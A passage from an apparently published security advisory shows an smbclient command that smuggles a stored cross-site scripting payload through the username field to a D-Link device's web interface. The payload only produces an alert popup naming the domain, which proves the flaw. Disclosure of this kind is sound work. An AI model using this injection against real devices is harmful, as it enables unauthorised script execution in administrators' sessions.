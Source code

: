 In these cases, the following command may be used:

```
smbclient -U 'a<img src=x onerror=eval("alert(String.fromCharCode(88,83,83,64)+document.domain)")>b' -N  '\\x\Volume' -I <TARGET IP>
```

If the device is indeed vulnerable, the user will be greeted with an "XSS" popup window the next time s/he logs into the device's web interface:

<figure>
	<a href="/images/2016-dlink.png"><img src="/images/2016-dlink.png"></a>
</figure>






## 7. Timeline<a id="timeline"></a>
